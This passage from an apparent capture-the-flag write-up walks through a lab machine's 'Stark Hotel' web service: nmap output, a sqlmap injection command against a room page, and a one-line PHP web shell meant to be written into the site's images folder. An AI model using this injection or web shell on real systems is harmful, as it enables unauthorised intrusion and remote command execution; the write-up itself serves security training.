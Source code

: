 ```
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
64999/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
```

Stark Hotel? I'm sensing an Iron-Man theme here. :laughing: It appears that `64999/tcp` is also a `http` service. Here's how both of them looks like.

_80/tcp_


{% include image.html image_alt="900ac137.png" image_src="/3b664597-88d3-4c0a-bd48-b6709238f69f/900ac137.png" %}


_64999/tcp_


{% include image.html image_alt="835a70ee.png" image_src="/3b664597-88d3-4c0a-bd48-b6709238f69f/835a70ee.png" %}


Hmm. Some kind of anti-bruteforce mechanism is in place.

### SQL Injection in `cod`

It wasn't long before I found a page that may possibly be susceptible to SQL injection.


{% include image.html image_alt="26bafacb.png" image_src="/3b664597-88d3-4c0a-bd48-b6709238f69f/26bafacb.png" %}


I made a guess—the database could be MySQL.

```
# sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --dbms=mysql --batch
```

Bingo!


{% include image.html image_alt="6d8f2a7d.png" image_src="/3b664597-88d3-4c0a-bd48-b6709238f69f/6d8f2a7d.png" %}


Armed with that insight, I could write/inject a PHP file to `/images` directory of the Apache default installation. This directory is almost certain to be writable by `www-data`. The PHP file is simple.

~~~~php
<?php echo shell_exec($_GET[0]); ?>
~~~~

Towards that end, I wrote a `bash` injector of sorts using `curl` as the main driver.


[1]: https://www.hackthebox.eu/home/machines/profile/194
[2]: https://www.hackthebox.eu/home/users/profile/25205
[3]: https://www.hackthebox.eu/home/users/profile/24844
[4]: https://www.hackthebox.eu/